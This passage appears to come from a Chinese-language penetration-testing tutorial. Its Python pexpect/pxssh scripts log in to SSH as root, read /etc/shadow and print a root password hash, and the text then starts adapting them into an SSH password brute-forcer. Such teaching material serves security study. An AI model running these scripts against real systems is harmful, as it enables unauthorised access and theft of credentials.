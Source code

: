 ```py
    child.sendline(password)
    child.expect(PROMPT)
    return child
def main():
    host = 'localhost'
    user = 'root'
    password = 'toor'
    child = connect(user, host, password)
    send_command(child, 'cat /etc/shadow | grep root')
if __name__ == '__main__':
    main() 
```

运行这个脚本。我们可以看到我们可以连接到一个 SSH 服务器，并远程控制者个主机。我们通过简单的命令以 root 身份读取`/etc/shadow` 文件来显示哈希密码，我么可以使用这个工具做一些更狡猾的事情，比如说用`wget` 下载渗透工具。你可以在 Backtrack 上通过生成`ssh-keys` 来启动 SSH 服务。尝试启动 SSH 服务器，然后用这个脚本区连接它。

```py
attacker# ssh-kengen
Generating public/private rsa1 key pair.
<..SNIPPED..>
attacker# service ssh start
ssh start/running, process 4376
attacker# python sshCommand.py
cat /etc/shadow | grep root
root:$6$ms32yIGN$NyXj0YofkK14MpRwFHvXQW0yvUid.slJtgxHE2EuQqgD
74S/GaGGs5VCnqeC.bS0MzTf/EFS3uspQMNeepIAc.:15503:0:99999:7::: 
```

## 通过 Pxssh 暴力破解 SSH 密码

在写最后一个脚本时真的让我们更加深入的了解了`pexpect` 模块的能力，但我们可以简化之前的脚本利用`pxssh` 模块。`Pxssh` 是`Pexpect`模块附带的脚本，它可以直接与 SSH 会话进行交互，通过预先定义的`login()`,`logout()`,`prompt()`函数。使用`pxssh` 模块，我们可以压缩我们之前的代码。

```py
import pxssh
def send_command(s, cmd):
    s.sendline(cmd)
    s.prompt()
    print(s.before)
def connect(host, user, password):
    try:
        s = pxssh.pxssh()
        s.login(host, user, password)
        return s
    except:
        print '[-] Error Connecting'
        exit(0)
s = connect('127.0.0.1', 'root', 'toor')
send_command(s, 'cat /etc/shadow | grep root') 
```

我们的脚本快要完成了。我们只需要对我们的脚本稍作修改就能暴力破解 SSH 认证。除了增加一些选项解析主机名，用户名和密码文件，我们唯一要做的就是稍微修改一下`connect()`函数。如果`login()`函数成功登陆没有异常的话，我们将打印消息提示发现密码，然后更新全局布尔值标识。否则，我们将捕捉异常。如果异常显示密码“refused”，我们知道密码错误，直接返回。然而，如果异常显示`socket` 套接字“read_nonblocking”，我们可以假设这个 SSH 服务器超过了最大连接数，然后我们会睡眠几秒再次尝试相同的密码连接。此外，如果异常显示`pxssh` 难以获得命令提示符，我们将睡眠一会使它能获取命令提示符。值得注意的是我们包含一个布尔值在`connect()`的函数参照中。`connect()`函数可以递归的调用其他的`connect()`函数，我们希望调用者可以释放连接锁信号量。
